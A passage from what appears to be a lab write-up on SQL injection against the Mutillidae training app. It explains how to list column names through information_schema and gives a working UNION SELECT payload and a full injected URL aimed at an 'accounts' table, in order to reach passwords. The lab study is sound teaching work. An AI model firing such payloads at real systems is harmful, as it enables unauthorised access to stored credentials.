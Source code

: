The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_15_29_56.26.png)
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_15_29_56.27.png)

